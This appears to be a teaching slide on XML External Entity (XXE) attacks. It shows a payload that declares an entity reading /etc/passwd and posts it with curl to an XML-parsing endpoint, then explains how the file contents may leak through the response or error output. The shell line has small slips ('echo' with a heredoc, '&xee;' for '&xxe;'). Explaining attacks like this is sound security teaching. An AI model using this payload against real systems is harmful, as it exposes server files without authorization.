

# XML External Entity (XXE) [2/3] : Attack & Risk
echo <<EOF

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>

EOF  |  curl -X POST http://server/parseXml -d @-
on server-side, the Xml Entity "&xee;"  might be expanded
to read a file then include it

The parsing may failed, and the error response be sent with full output

This was a VERY FREQUENT bug when using  Xml Soap & Wsdl in the 2000-2010,
before the raise of "Json"